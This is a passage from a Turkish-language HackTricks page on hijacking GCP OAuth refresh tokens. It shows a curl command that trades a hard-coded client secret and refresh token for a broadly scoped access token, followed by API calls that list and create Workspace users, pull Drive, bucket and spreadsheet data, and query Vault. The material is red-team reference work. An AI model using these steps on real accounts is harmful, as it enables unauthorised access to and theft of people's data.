https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Bu kapsamların bazılarını kullanarak bazı örnekler:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault**, Google Workspace için veri saklama, arama ve dışa aktarma araçları sağlayan bir eklentidir. Bu araçlar, Gmail, Drive, Chat ve daha fazlası gibi Google Workspace hizmetlerinde saklanan kuruluş verilerinizi yönetmenize yardımcı olur.

* Google Workspace Vault'taki bir **Matter**, belirli bir dava, soruşturma veya hukuki mesele ile ilgili tüm bilgileri organize eden ve gruplandıran bir **kapsayıcıdır**. Bu, o belirli konu ile ilgili **Holds**, **Searches** ve **Exports** yönetimi için merkezi bir merkez olarak hizmet eder.
* Google Workspace Vault'taki bir **Hold**, belirli kullanıcılar veya gruplar üzerinde **veri silinmesini veya değiştirilmesini önlemek** için uygulanan bir **koruma eylemidir**. Holds, ilgili bilgilerin bir hukuki dava veya soruşturma süresince sağlam ve değiştirilmemiş kalmasını sağlar.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Daha fazla [API uç noktası belgelerde](https://developers.google.com/vault/reference/rest).

</details>

## Referanslar

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
